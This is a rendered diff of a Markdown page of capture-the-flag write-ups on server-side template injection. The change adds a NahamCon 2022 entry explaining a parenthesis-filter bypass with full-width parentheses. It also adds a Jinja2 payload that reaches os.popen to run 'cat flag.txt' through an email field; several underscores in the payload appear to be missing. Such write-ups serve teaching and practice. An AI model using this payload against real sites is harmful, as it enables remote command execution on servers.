

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_10_challs.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/challenges/SSTI_10_challs.md
+++ b/challenges/SSTI_10_challs.md
@@ -71,3 +71,7 @@ Accept-Encoding: gzip, deflate
 Accept-Language: en-US,en;q=0.9
 Connection: close
 ```
+- ## Nahamcon 2022(Deafcon):
+  In this challenge, parenthesis were blacklistyed which means that any python command could not be executed. The way around this was to use full width parenthesis intead of half width which would serve the purpose and all bypass the filter.
+ Final payload:```"{{ self._TemplateReferencecontext.cycler.init.globals__.os.popen（'cat flag.txt'）.read（）}}"@aaa.com```
+This payload was inserted into the email field and flag was obtained
````
